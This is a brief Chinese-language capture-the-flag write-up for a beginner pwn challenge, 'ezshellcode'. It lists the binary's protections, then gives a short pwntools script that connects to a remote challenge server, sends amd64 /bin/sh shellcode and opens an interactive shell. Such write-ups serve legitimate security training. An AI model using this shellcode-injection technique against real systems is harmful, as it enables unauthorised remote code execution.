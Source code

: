 # W1 ezshellcode

## 文件分析

下载`ezshellcode`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

输入一段shellcode就会直接运行了，发一段64位sh的shellcode即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27766)
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
